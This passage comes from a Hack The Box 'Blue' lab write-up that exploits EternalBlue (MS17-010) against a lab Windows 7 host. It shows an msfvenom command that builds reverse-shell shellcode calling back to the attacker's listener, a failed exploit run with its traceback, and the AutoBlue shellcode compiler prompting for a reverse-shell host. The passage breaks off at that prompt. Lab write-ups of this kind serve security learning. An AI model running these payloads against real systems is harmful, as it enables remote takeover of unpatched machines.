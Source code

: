 Let’s see what exploit7 needs.

```
kali@kali:~/htb/Blue$ python eternalblue_exploit7.py -h
eternalblue_exploit7.py <ip> <shellcode_file> [numGroomConn]
```

Ok so we need the shellcode. We can use msfvenom for that:


```
kali@kali:~/htb/Blue$ sudo msfvenom -p windows/x64/shell_reverse_tcp EXITFUNC=thread LHOST=10.10.14.21 LPORT=1337 -f raw > shellcode[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
```

Ok let's try:

```
kali@kali:~/htb/Blue$ python eternalblue_exploit7.py 10.129.87.153 shellcode
shellcode size: 460
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
Traceback (most recent call last):
  File "eternalblue_exploit7.py", line 563, in <module>
    exploit(TARGET, sc, numGroomConn)
  File "eternalblue_exploit7.py", line 544, in exploit
    conn.disconnect_tree(tid)
  File "/home/kali/.local/lib/python2.7/site-packages/impacket/smb.py", line 2815, in disconnect_tree
    self.recvSMB()
  File "/home/kali/.local/lib/python2.7/site-packages/impacket/smb.py", line 2521, in recvSMB
    r = self._sess.recv_packet(self.__timeout)
  File "/home/kali/.local/lib/python2.7/site-packages/impacket/nmb.py", line 914, in recv_packet
    data = self.__read(timeout)
  File "/home/kali/.local/lib/python2.7/site-packages/impacket/nmb.py", line 997, in __read
    data = self.read_function(4, timeout)
  File "/home/kali/.local/lib/python2.7/site-packages/impacket/nmb.py", line 981, in non_polling_read
    raise NetBIOSTimeout
impacket.nmb.NetBIOSTimeout: The NETBIOS connection with the remote host timed out.
```

Ok, let’s try x86 maybe? Doesn’t work either. 

```
kali@kali:~/AutoBlue-MS17-010/shellcode$ sudo ./shell_prep.sh
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
Y
LHOST for reverse connection:
10.10.14.21                                                                                                                                          
```